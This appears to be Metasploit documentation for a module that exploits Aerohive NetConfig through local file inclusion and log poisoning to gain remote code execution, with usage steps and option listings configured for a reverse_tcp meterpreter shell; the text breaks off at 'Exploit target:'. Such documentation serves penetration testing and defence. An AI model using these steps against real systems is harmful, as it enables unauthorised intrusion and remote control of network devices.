 This module has been successfully tested against Aerohive NetConfig versions 8.2r4 and 10.0r7a.

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set LHOST [IP]`
5. Do: `exploit`

## Options
### TARGETURI
The base path to Aerohive NetConfig. The default value is `/`.

## Targets
```
Id  Name
--  ----
0   Linux
1   CMD
```

## Scenarios
### Aerohive NetConfig 8.2r4 - Linux target - AUTO_CLEAN_LOG false
```
Module options (exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   AUTO_CLEAN_LOG  false            yes       Automatically clean the /tmp/messages log upon spawning a shell. WARN
                                              ING! This may render the target unexploitable
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          92.168.1.151     yes       The target host(s), see https://github.com/rapid7/metasploit-framewor
                                              k/wiki/Using-Metasploit
   RPORT           443              yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an add
                                              ress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /                yes       The base path to Aerohive NetConfig
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Payload options (linux/armle/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.229    yes       The listen address (an interface may be specified)
   LPORT  4000             yes       The listen port


Exploit target:
```